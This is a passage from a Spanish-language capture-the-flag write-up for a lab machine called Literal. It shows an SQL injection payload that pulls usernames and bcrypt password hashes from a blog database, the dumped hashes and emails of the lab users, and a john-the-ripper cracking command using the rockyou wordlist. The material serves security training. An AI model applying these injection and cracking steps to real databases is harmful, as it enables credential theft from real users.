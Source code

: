 Claramente, nos atraen los campos `username` y `userpassword`.

### Extrayendo datos de usuarios de la base de datos [⤵️](#sqli-union-blog-data) {#sqli-union-blog-data}

---

```sql
Done' ... (SELECT CONCAT(username,':',userpassword) FROM blog.users LIMIT 0,1),...
```

Yyyy:

```bash
test:$2y$10$wWhvCz1pGsKm..jh/lChIOA7aJoZRAil40YKlGFiw6B.6a77WzNma
admin:$2y$10$fjNev2yv9Bi1IQWA6VOf9Owled5hExgUZNoj8gSmc7IdZjzuOWQ8K
carlos:$2y$10$ikI1dN/A1lhkKLmiKl.cJOkLiSgPUPiaRoopeqvD/.p.bh0w.bJBW
freddy123:$2y$10$yaf9nZ6UJkf8103R8rMdtOUC.vyZUek4vXVPas3CPOb4EK8I6eAUK
jorg3_M:$2y$10$lZ./Zflz1EEFdYbWp7VUK.415Ni8q9kYk3LJ2nF0soRJG1RymtDzG
aNdr3s1to:$2y$10$F2Eh43xkXR/b0KaGFY5MsOwlnh4fuEZX3WNhT3PxSw.6bi/OBA6hm
kitty:$2y$10$rXliRlBckobgE8mJTZ7oXOaZr4S2NSwqinbUGLcOfCWDra6v9bxcW
walter:$2y$10$er9GaSRv1AwIwu9O.tlnnePNXnzDfP7LQMAUjW2Ca1td3p0Eve6TO
estefy:$2y$10$hBB7HeTJYBAtdFn7Q4xzL.WT3EBMMZcuTJEAvUZrRe.9szCp19ZSa
michael:$2y$10$sCbKEWGgAUY6a2Y.DJp8qOIa250r4ia55RMrDqHoRYU3Y7pL2l8Km
r1ch4rd:$2y$10$7itXOzOkjrAKk7Mp.5VN5.acKwGi1ziiGv8gzQEK7FOFLomxV0pkO
fel1x:$2y$10$o06afYsuN8yk0yoA.SwMzucLEavlbI8Rl43.S0tbxL.VVSbsCEI0m
kelsey:$2y$10$vxN98QmK39rwvVbfubgCWO9W2alVPH4Dp4Bk7DDMWRvfN995V4V6.
jtx:$2y$10$jN5dt8syJ5cVrlpotOXibeNC/jvW0bn3z6FetbVU/CeFtKwhdhslC
DRphil:$2y$10$rW58MSsVEaRqr8uIbUeEeuDrYB6nmg7fqGz90rHYHYMt2Qyflm1OC
carm3N:$2y$10$D7uF6dKbRfv8U/M/mUj0KujeFxtbj6mHCWT5SaMcug45u7lo/.RnW
lanz:$2y$10$PLGN5.jq70u3j5fKpR8R6.Zb70So/8IWLi4e69QqJrM8FZvAMf..e
lanza:$2y$10$O3vFKVA81RvohCkEAKnJEeJi5Pe8lSLQ/.vS8L4Go5kPzcCrgu/2.
```

Ujuuu, varios usuarios y varias contraseñas. Según varias herramientas, el algoritmo usado es `bcrypt`. Podemos usar opciones como `hashcat` o `john-the-ripper` para crackear estas contraseñas y verlas en texto plano:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt sqli_users_passwords_blog.hashes
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/literal/Literal_bash_john_crackingBLOGhashes.png" style="width: 30%;"/>

Obtenemos varias, pero con ninguna obtenemos información distinta en el blog o logramos establecer una terminal por SSH ):

Después de un rato, si volvemos a atrás, vemos un campo llamado `useremail`, si extraemos su contenido, encontramos respuestas:

```bash
test:test@blog.literal.htb
admin:admin@blog.literal.htb
carlos:carlos@blog.literal.htb
freddy123:freddy123@zeeli.moc
jorg3_M:jorg3_M@zeeli.moc
aNdr3s1to:aNdr3s1to@puertonacional.ply
kitty:kitty@estadodelarte.moc
walter:walter@forumtesting.literal.hmv
estefy:estefy@caselogic.moc
michael:michael@without.you
r1ch4rd:r1ch4rd@forumtesting.literal.hmv
fel1x:fel1x@without.you
kelsey:kelsey@without.you
jtx:jtx@tiempoaltiempo.hy
DRphil:DRphil@alcaldia-tol.gob
carm3N:carm3N@estadodelarte.moc
lanz:lanz@literal.htb
```